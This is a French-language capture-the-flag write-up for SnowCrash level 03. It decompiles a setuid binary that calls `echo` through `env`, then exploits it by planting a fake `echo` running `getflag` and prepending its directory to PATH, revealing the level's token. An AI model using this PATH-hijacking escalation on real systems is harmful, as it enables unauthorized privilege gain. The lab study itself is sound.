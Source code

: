
# **Level 03**

Pour ce level03, nous avons un executable dans le dossier courant appartenant a flag03 et que l'on peux executer avec les droits de flag03 -rw`s`r-`s`-r-x 

>(le `s` signifiant de l'executer avec les droits du owner du fichier)

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

Lorsque l'on execute le fichier on a cette output:

```
level03@SnowCrash:~$ ./level03 
Exploit me
```

On decide d'utiliser un decompiler de fichier pour essayer de comprendre le code qu'il execute donc avec scp on recupere le fichier et on le mets sur ce site :

[Decompiler explorer](https://dogbolt.org/)

```
scp -P 4242 level03@192.168.56.104:level03 Downloads 
```

On recupere donc ce code

```
int32_t main(int32_t argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    return system("/usr/bin/env echo Exploit me");
}
```

On vois que le programme fais un appel a `echo` directement en passant par le PATH du terminal donc nous ecrivons un fichier `/var/crash/echo` contenant l'instruction `getflag` et lui donnons les droits d'executions

```
level03@SnowCrash:/var/crash$ touch echo
level03@SnowCrash:/var/crash$ echo getflag > echo
level03@SnowCrash:/var/crash$ cat echo
getflag
level03@SnowCrash:/var/crash$ chmod 777 echo
```

Nous modifions le PATH pour appeler notre echo

```
export PATH=/var/crash:$PATH
```

Nous executons `level03`

```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```


> ### NEXT : [Level 04](/level04/resources/README.md)
